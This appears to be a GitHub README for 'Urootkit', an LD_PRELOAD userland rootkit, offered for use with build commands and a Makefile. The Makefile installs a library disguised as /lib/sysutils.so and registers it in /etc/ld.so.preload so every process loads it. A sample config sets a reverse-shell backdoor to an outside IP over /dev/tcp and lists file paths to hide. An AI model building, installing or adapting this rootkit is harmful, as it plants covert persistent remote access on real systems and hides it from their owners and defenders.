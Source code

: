 # Urootkit
The userland LD_PRELOAD rootkit
Reference: https://github.com/ngn13/cerez

## Make
```shell
apt update && apt install build-essential libconfig-dev

make && make install
```
Makefile:
```shell
SRCS = $(wildcard *.c)
HEADERS = $(wildcard *.h)

dist/loader.so: $(SRCS) $(HEADERS)
	mkdir -p dist
	gcc -shared -fPIC $(SRCS) -o $@ -ldl -lconfig -nostartfiles

install:
	cp ukk_root.cfg /etc/ukk_root.cfg
	cp dist/loader.so /lib/sysutils.so 
	echo /lib/sysutils.so > /etc/ld.so.preload
```
## USE
ukk_root.cfg:
```shell
backdoor = "bash -c 'bash -i >& /dev/tcp/123.123.123.123/50001 0>&1'";

hidden = (  
  { path = "/etc/uroot.cfg" },
  { path = "/tmp/test" }
);
```
- backdoor: is the urootkit will do when the hooked function is runing
- hidden: the path you want to hide
